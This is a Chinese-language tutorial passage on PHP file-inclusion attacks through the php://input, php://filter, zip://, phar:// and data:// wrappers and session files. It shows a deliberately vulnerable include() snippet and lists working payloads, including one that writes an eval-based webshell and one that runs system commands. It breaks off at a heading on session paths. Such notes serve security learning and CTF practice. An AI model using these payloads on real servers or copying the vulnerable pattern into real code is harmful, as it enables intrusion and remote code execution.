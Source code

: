 #### `php://input`

​	`php://input`可以看做和`$_POST[]`差不多，只是面对某些不同类型的传参时表现的内容不太一样，比如如下的代码块

```php
<?php
$file = $_GET["file"];
if ($file) {
    include($file);
} else {
    echo "指定file";
}
```

当我们传入`?file=php://input`时，程序会等待一个post请求，如果post请求为一段php代码，程序也会对其执行，从而达到了注入的目的

> 注意Chrome上的HackBar会抽风，建议自己手动构造POST请求

除了`include`之外，如果遇到`file_get_contents`也要想到`php://input`

常见poc（通过post传入）：

- `<?php system("dir");?>`
- `<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST['cmd'])?>');?>`

#### `php://filter`

`php://filter`可以获得指定文件的源码或是源码经过编译之后的密码，避免服务器自动编译某些文件导致丢失比如注释等信息，有助于我们进行代码审计或是获得flag

常用POC：

- `?file=php://filter/read=convert.base64-encode/resource=xxx.php`

#### `zip:// phar://`

`zip://`可以访问zip压缩包内的文件，并可以自定义后缀名，这提醒我们可以通过别的方式将敏感文件进行压缩并且更改后缀防止识别之后上传，再跟据`zip://`来执行压缩文件内的文件内容

不过注意zip后的路径必须为绝对路径

常用POC：

- `?file=zip://[绝对路径zip]%23[压缩包内文件名]`
- `?file=phar://[绝对路径/相对路径zip]%23[压缩包内文件名]`

#### `data://`

`data://`可以将之后的内容格式化后作为输入流，有点类似`php://input`，同样也会解析其中的php代码并执行，并且可以对传入的数据进行编码，固定格式为`data://[<mime>][;charset=<encoding>][;base64],<data>`

常用POC：

- `?file=data://,<?php phpinfo();`
- `?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==`

#### Session包含

比如包含本机的session，为了定制个性化的页面，我们看到的php页面中往往会包含`$_SESSION[]`获取session值的内容，而部分Session的值我们可能是可控的，比如我们可以注册一个含有木马的用户名，服务器按道理将我们的用户名也存入了Session中，此时如果我们可以直接读取Session文件，那么服务器也会将其中的部分php代码进行解析，从而达到注入的目的

Session常见路径：
